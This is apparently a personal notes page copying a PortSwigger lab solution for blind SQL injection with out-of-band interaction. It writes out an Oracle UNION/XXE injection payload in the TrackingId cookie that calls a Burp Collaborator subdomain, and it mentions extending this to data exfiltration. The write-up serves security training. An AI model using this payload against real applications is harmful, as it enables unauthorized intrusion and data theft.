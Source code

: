 ```yaml
---
dg-publish: true
---
```







- The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows:`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.